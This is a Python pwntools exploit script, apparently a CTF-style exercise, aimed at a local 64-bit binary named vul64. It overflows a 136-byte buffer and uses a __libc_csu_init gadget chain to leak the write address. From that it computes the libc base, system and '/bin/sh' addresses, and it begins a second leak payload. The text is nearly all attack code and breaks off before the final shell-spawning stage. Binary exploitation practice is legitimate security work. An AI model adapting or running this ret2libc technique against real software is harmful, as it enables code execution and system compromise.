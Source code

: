 from pwn import *

p = process('./vul64')
#p = remote('127.0.0.1', 10000)
elf = ELF('./vul64')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

#context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
#gdb.attach(proc.pidof(p)[0], gdbscript="b * 0x0400557\nc\n")

pop_rax_ret_off = 0x00000000000380b8  # pop rax; ret
write_plt = elf.symbols['write']
write_got = elf.got['write']
print "[+] the write got address is " + hex(write_got)
main = elf.symbols['main']
print "[+] the main address is " + hex(main)

payload_len = 136  # pattern_create and pattern_offset

p6_ret = elf.symbols['__libc_csu_init'] + 0x5A
print "[+] The libc csu init function " + hex(p6_ret)

# payload to acquire the write function address
payload1 = "\x90"*payload_len + p64(p6_ret) + p64(0) + p64(1)
payload1 += p64(write_got) + p64(1) + p64(write_got) + p64(8)
payload1 += p64(0x4005d0)
payload1 += "A"*56
payload1 += p64(main)

p.send(payload1)

sleep(1)
write_addr = u64(p.recv(8))
print "[+] the write function address is " + hex(write_addr)

libc_base = write_addr - libc.symbols['write']
print "[+] the libc base address is " + hex(libc_base)
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
print "[+] the system function address is " + hex(system_addr)
binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
print "[+] the /bin/sh string address is " + hex(binsh_addr)
pop_rax_ret = libc_base + pop_rax_ret_off  # pop rax; ret
print "[+] the pop rax; ret address is " + hex(pop_rax_ret)
pop_rdi_ret_off = 0x02144f
pop_rdi_ret = libc_base + pop_rdi_ret_off  # 0x000000000002144f : pop rdi ; ret
print "[+] the pop rdi; ret address is " + hex(pop_rdi_ret)
call_rax = 0x400410  # _init call rax;


# payload2 to acquire the dl_runtime_resolve_xsave address
dl_runtime_got = 0x601010
payload2 = "\x90"*payload_len + p64(p6_ret) + p64(0) + p64(1)
payload2 += p64(write_got) + p64(1) + p64(dl_runtime_got) + p64(8)
payload2 += p64(0x4005d0)
payload2 += "A"*56
payload2 += p64(main)
